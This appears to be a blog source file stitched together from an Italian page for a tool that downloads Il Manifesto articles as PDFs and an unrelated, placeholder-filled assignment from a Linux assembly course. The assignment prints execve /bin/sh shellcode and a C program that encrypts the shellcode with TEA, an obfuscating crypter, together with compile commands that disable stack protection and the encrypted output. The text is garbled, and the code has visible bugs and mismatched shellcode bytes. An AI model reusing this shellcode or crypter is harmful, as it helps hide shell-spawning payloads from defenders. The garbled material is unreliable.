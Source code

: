 ```yaml
---
layout: post
title:  "il Manifesto 2 pdf"
date:   06-10-2018
categories: tools
---
```

<br />

<script type="text/javascript" src="../js/jquery-3.3.1.min.js"></script>
<script type="text/javascript" src="../js/manifesto.js"></script>

<style> 
input[type=text] {
    width: 100%;
    padding: 12px 20px;
    margin: 8px 0;
    box-sizing: border-box;
    border: 2px solid red;
    border-radius: 4px;
}
</style>

<center>
	Inserisci l'url all'articolo de Il Manifesto che vuoi scaricare: <br><br>
<form id="frm1">
  <input type="text" name="fname" value="URL COMPLETO"><br>
</form>
<br>
<button onclick="myFunction()">Ottieni PDF</button>
</center>

<p id="link"></p>

<script>
function myFunction() {
    var x = document.getElementById("frm1");
    var text = "";
    var i;
    for (i = 0; i < x.length ;i++) {
        text += x.elements[i].value;
    }
    link2pdf(text);
}
</script>


Student **Prova**  
Github: [https://github.com/massimobedini](https://github.com/massimobedini)  
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)  
  
## Prova 7:  
    
**Prova:**  
> *Uno*
 - *Due*
 - *Tre*  
  
Ciao a tutti,  
Blabbiti: 
*'Quote.'*  
 
  
Canic [link](http://www.tayloredge.com/reference/Mathematics/TEA-XTEA.pdf).  

Shellcode:  
```
\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```

Rpba:  
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void encode(long *data, long *key) {
	unsigned long y = data[0], z = data[1],
	sum = 0, delta = 0x9e3779b9, n = 32;
	while (n-- > 0) {
		sum += delta;
		y += (z << 4) + (key[0]^z) + (sum^(z >> 5)) + key[1];
		z += (y << 4) + (key[2]^y) + (sum^(y >> 5)) + key[3];
	}
	data[0] = y;
	data[1] = z;
}

void decode(long *data, long *key) {
	unsigned long n = 32, sum, y = data[0], z = data[1],
	delta=0x9e3779b9;
	sum = delta << 5;
	while (n-- > 0) {
	     	z -= (y << 4) + (key[2]^y) + (sum^(y >> 5)) + key[3]; 
	     	y -= (z << 4) + (key[0]^z) + (sum^(z >> 5)) + key[1];
	     	sum -= delta;  
	}
	data[0] = y; 
	data[1] = z;  
}

/* Character Array Functions */
void codestr(char *datastr, char *keystr) {
	int i = 0, datasize;
	long *data = (long *)datastr;
	long *key = (long *)keystr;
	datasize = strlen(datastr) / sizeof(long);
	datasize = 0 ? 1 : datasize;
	while (i < datasize) {
		encode(data, key);
		i += 2;
		data = (long *)datastr + i;
	}
}

void decodestr(char *datastr, char *keystr) {
	int i = 0, datasize;
	long *data = (long *)datastr;
	long *key = (long *)keystr;
	datasize = strlen(datastr) / sizeof(long);
	datasize = 0 ? 1 : datasize;
	while (i < datasize) {
		decode(data, key);
		i += 2;
		data = (long *)datastr + i;
	}
}

int main() {
	char shellcode[] = \
	"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; //execve-stack
	
	int last;
	char *str, buff[512];
	char key[16] = "iloveshellcodess";
	
	str = shellcode;

	codestr(str, key);

	printf("\Ciphered shellcode size: %d\n", strlen(str));
	printf("\Ciphered shellcode:\n");

	int j;
	for (j=0;j<strlen(str);j++)
	{
		printf("\\x%02x", (unsigned char)(int)str[j]);
	}
	
	return 0;
}
```
  
Bash:
```bash
# gcc -fno-stack-protector -z execstack -o tea_crypter tea_crypter.c && chmod u+x ./tea_crypter && ./tea_crypter
Ciphered shellcode size: 25
Ciphered shellcode:
\x75\xac\xf4\x4c\x4f\x97\x9a\x0a\x92\xb5\x29\x5f\x9e\xa3\xa0\x53\xa7\xa9\xcd\x3c\x6f\x85\xee\x95\x80
```  
  
Ciao.
  
[Massimo](https://twitter.com/massimobedini)
